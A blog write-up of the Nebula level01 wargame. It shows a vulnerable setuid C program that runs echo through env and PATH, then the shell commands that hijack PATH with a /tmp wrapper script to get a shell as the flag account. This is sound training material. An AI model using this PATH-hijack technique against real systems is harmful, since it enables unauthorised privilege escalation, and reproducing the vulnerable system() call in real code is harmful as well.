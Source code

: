 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 01"
date: 2011-12-02T06:18:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing from my previous post, I started tinkering with the next Nebula wargame: [Nebula 01](http://exploit-exercises.com/nebula/level01). This one gives you some C code, which has a bug in it. You have to exploit that bug.

```
#include <stdlib.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 gid_t gid;
 uid_t uid;
 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 system("/usr/bin/env echo and now what?");
}
```

If you read through the code, you may notice that it's calling "echo" with some text appended, to echo it to the screen. How it's being called, it is loading the path to "echo" from the environment settings. It'll read what's in the path. To exploit this, all we have to do is modify the path.

```
level01@nebula:/home/flag01$ PATH=/tmp:$PATH
level01@nebula:/home/flag01$ export PATH
level01@nebula:/home/flag01$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Now, if "echo" is called, it'll look in /tmp first. So let's start tinkering. My first thought was to just make a symbolic link to /bin/bash, to get me a shell.

```
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo
level01@nebula:/home/flag01$ ./flag01
echo: and: No such file or directory
```

However, that didn't work, because it was essentially calling bash with the parameters of "and now what?". To get around that, I figured I'd wrap it in a bash script, which just ignored any parameters. I deleted the /tmp/echo file I created, and tried over.

```
level01@nebula:/home/flag01$ rm /tmp/echo
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo2
level01@nebula:/home/flag01$ echo -e '#!/bin/bash\n/tmp/echo2' > /tmp/echo;chmod +x /tmp/echo
level01@nebula:/home/flag01$ ./flag01
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```

This time it was successful, so I again, ran "getflag".  Now I have another level complete.
